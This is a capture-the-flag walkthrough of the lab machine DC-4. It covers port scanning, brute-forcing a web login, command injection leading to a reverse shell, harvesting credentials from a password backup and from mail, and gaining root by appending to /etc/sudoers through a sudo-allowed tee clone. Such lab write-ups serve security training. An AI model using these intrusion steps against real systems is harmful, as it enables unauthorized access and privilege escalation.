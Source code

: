 # PG Play - DC-4

#### Ip: 192.168.176.195
#### Name: DC-4
#### Difficulty: Intermediate
#### Community Rating: Intermediate

----------------------------------------------------------------------

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also use the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/PG/DC-4]
└─$ sudo nmap -p-  192.168.176.195 --min-rate 10000
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-25 13:11 CDT
Nmap scan report for 192.168.176.195
Host is up (0.065s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 6.96 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/PG/DC-4]
└─$ sudo nmap -sC -sV 192.168.176.195 -p 22,80            
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-25 13:11 CDT
Nmap scan report for 192.168.176.195
Host is up (0.066s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 8d6057066c27e02f762ce642c001ba25 (RSA)
|   256 e7838cd7bb84f32ee8a25f796f8e1930 (ECDSA)
|_  256 fd39478a5e58339973739e227f904f4b (ED25519)
80/tcp open  http    nginx 1.15.10
|_http-title: System Tools
|_http-server-header: nginx/1.15.10
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.89 seconds
```

Heading over to the site on port 80 we find a basic login screen.

![site.png](../assets/dc-4_assets/site.png)

Taking a look at the page source we can see the form is making a POST request on `/login.php`

![login.png](../assets/dc-4_assets/login.png)

Lets use Hydra to try and bruteforce the admin user's password:

![brute.png](../assets/dc-4_assets/brute.png)

Nice, Hydra found a password!

Logging into the site we see we can follow a link to `/command.php`,  which in turn lets us select a few different commands we can run against the system:

![command.png](../assets/dc-4_assets/command.png)

![list.png](../assets/dc-4_assets/list.png)

Lets catch this in Burp and see what else we can find:

Interesting, we can see that commands are being executing in the `radio` field (I think these are called radio buttons in HTML)

![burp.png](../assets/dc-4_assets/burp.png)

We can confirm we have code execution here by inputing the command `pwd` into the field (which wasn't an option in the GUI) and getting a valid response:

![pwd.png](../assets/dc-4_assets/pwd.png)

### Exploitation

We can exploit this by issuing a reverse shell command here:

![burp2.png](../assets/dc-4_assets/burp2.png)

Which gets us a shell back in our NetCat listener:

![shell.png](../assets/dc-4_assets/shell.png)

We can then grab the local.txt flag in Jim's directory:

![user_flag.png](../assets/dc-4_assets/user_flag.png)

### Privilege Escalation

Looking around the machine I find a file called `old-passwords.bak`

```text
www-data@dc-4:/home/jim/backups$ cat old-passwords.bak 
000000
12345
iloveyou
1q2w3e4r5t
1234
123456a
qwertyuiop
monkey
123321
dragon
654321
666666
123

<SNIP>
```

Lets copy the list back to our attacking machine and try to bruteforce the passwords for SSH as user Jim:

![brute2.png](../assets/dc-4_assets/brute2.png)

Cool, that worked:

```text
┌──(ryan㉿kali)-[~/PG/DC-4]
└─$ ssh jim@192.168.176.195       
The authenticity of host '192.168.176.195 (192.168.176.195)' can't be established.
ED25519 key fingerprint is SHA256:0CH/AiSnfSSmNwRAHfnnLhx95MTRyszFXqzT03sUJkk.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.176.195' (ED25519) to the list of known hosts.
jim@192.168.176.195's password: 
Linux dc-4 4.9.0-3-686 #1 SMP Debian 4.9.30-2+deb9u5 (2017-09-19) i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have mail.
Last login: Sun Apr  7 02:23:55 2019 from 192.168.0.100
jim@dc-4:~$ hostname
dc-4
```

Checking out the `/var/mail` directory, we find an interesting file called `jim`:

```text
jim@dc-4:/var/mail$ cat jim
From charles@dc-4 Sat Apr 06 21:15:46 2019
Return-path: <charles@dc-4>
Envelope-to: jim@dc-4
Delivery-date: Sat, 06 Apr 2019 21:15:46 +1000
Received: from charles by dc-4 with local (Exim 4.89)
	(envelope-from <charles@dc-4>)
	id 1hCjIX-0000kO-Qt
	for jim@dc-4; Sat, 06 Apr 2019 21:15:45 +1000
To: jim@dc-4
Subject: Holidays
MIME-Version: 1.0
Content-Type: text/plain; charset="UTF-8"
Content-Transfer-Encoding: 8bit
Message-Id: <E1hCjIX-0000kO-Qt@dc-4>
From: Charles <charles@dc-4>
Date: Sat, 06 Apr 2019 21:15:45 +1000
Status: O

Hi Jim,

I'm heading off on holidays at the end of today, so the boss asked me to give you my password just in case anything goes wrong.

Password is:  ^xHhA&hvim0y

See ya,
Charles
```
Cool, another credential. Lets `su` over to user charles:

```text
jim@dc-4:/var/mail$ su charles
Password: 
charles@dc-4:/var/mail$ whoami
charles
```

If we run `sudo -l` to see what we can run wiht elevated permissions we find something called teehee:

```text
charles@dc-4:/var/mail$ sudo -l
Matching Defaults entries for charles on dc-4:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on dc-4:
    (root) NOPASSWD: /usr/bin/teehee
```

I'm wondering if this is just `tee` but with a different name?

Lets try adding charles to the sudoers file using `tee`:

```text
charles@dc-4:/var/mail$ echo "charles ALL=(ALL:ALL) ALL" | sudo /usr/bin/teehee /etc/sudoers
charles ALL=(ALL:ALL) ALL 
charles@dc-4:/var/mail$ sudo su root

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for charles: 
root@dc-4:/var/mail# whoami && hostname
root
dc-4
```
Nice, that worked!

All we need to do now is grab the proof.txt flag:

![root_flag.png](../assets/dc-4_assets/root_flag.png)

Thanks for following along!

-Ryan

---------------------------------------------
